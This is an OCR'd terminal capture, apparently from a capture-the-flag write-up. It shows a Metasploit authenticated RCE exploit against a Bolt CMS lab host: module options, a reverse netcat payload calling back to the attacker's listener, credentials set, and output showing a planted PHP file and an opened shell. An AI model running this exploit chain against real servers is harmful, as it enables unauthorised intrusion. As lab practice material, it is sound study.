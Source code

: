 ```bash
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://github.com/rapid7/metasploit-fra
                                                         mework/wiki/Using-Metasploit
   RPORT                8000                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be a
                                                         n address on the local machine or 0.0.0.0 to listen on all addre
                                                         sses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)

msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost 10.9.1.90
lhost => 10.9.1.90
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.90.9
rhosts => 10.10.90.9
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.9.1.90:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "onqygt".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file lbhixbgfo.php.
[+] Used token 97dcf29762934fcd680237893b to create ebqvyokp.php.
[*] Attempting to execute the payload via "/files/ebqvyokp.php?onqygt=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 1 opened (10.9.1.90:4444 -> 10.10.90.9:55812 ) at 2022-01-12 02:43:49 -0500
[+] Deleted file ebqvyokp.php.
[+] Reverted user profile back to original state.

ls
index.html
cd /home
```